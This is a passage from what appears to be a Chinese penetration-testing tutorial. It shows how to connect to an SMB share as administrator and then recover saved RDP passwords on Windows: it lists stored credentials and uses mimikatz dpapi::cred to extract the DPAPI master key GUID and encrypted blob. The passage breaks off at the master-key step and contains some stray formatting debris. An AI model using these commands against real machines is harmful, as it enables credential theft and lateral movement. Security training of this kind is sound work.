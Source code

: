 3.smb 连接

```
smbclient //192.168.1.8/tools -U administrator

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEtylHBAMOviciaUq24SUTlCMSKKm65DpuxmMicHfbiaRslCGbl3WMo7xVeA/640?wx_fmt=png)

执行 smbclient 命令成功后，进入 smbclient 环境，出现提示符：smb:/>  这里命令和 ftp 命令相似，如 cd 、lcd、get、megt、put、mput 等。通过这些命令，我们可以访问远程主机的共享资源

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEgUy95mrLj05LDR18QWQJEu2ibiaKf2Rh6PEgViaB4D6aBsjISalGxjaHQ/640?wx_fmt=png)

**本地 rdp 密码读取**

**1\. 查看当前服务器历史记录**

```
#查看rdp连接历史记录
cmdkey /list

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGESBAwTUXChQobybredScdAJBmTO904RDZ1vkS2TicaZhhPBAhmJdMMHg/640?wx_fmt=png)  

**2\. 查找保存在本地的认证，得到对应路径以及值**

```
dir /a %userprofile%\\AppData\\Local\\Microsoft\\Credentials\\\*

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEdZorqZPgxKJMeicwq0uNSPQLmWJcMMOZnKqBqm4qmqXlg7tLVkQwxxw/640?wx_fmt=png)

得到：

```
C:\*\*加粗样式\*\*\\Users\\admin\\AppData\\Local\\Microsoft\\Credentials\\1F914B4D8F36DFD93C3A37B7D5491363

```

**3\. 运行 mimikaz，获取 guidMasterKey**  

```
mimikatz
dpapi::cred /in:C:\\Users\\MIN\\AppData\\Local\\Microsoft\\Credentials\\1F914B4D8F36DFD93C3A37B7D5491363

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEskCeBc7MhYyrSB8k4DMEglGz1ZdNzh3gp69HU5iaPleaZrtN9WyyARA/640?wx_fmt=png)

接下来需要使用的是 guidMasterKey、pbData 数据。pbData 是凭据的加密数据，guidMasterKey 是凭据的 GUID。  
**4\. 获取 MasterKey**  
根据目标凭据 GUID 找到其关联的 MasterKey，这个 MasterKey 就是加密凭据的密钥，即解密 pbData 所必须的东西。  
